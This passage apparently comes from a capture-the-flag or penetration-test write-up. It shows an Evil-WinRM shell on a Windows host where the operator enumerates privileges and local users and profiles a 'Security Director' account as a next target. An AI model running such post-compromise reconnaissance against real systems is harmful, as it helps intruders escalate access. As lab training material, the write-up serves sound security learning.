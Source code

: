 It seems that the local user doesn't have the privileges
```
*Evil-WinRM* PS C:\Users\remoteassist\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
We see other user named `james_local`
```
*Evil-WinRM* PS C:\Users\remoteassist\Documents> net users

User accounts for \\

-------------------------------------------------------------------------------
AdministratorAccount     DefaultAccount           Guest
james_local              remoteassist             WDAGUtilityAccount
The command completed with one or more errors.
```

`james_local` is a security director
```
*Evil-WinRM* PS C:\Users\remoteassist\Documents> net user james_local
User name                    james_local
Full Name                    James Brandt (Security Director)
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/2/2024 1:05:30 AM
Password expires             Never
Password changeable          11/2/2024 1:05:30 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   8/15/2025 9:43:55 PM

Logon hours allowed          All

Local Group Memberships      *Remote Desktop Users *Users
Global Group memberships     *None
The command completed successfully.

```
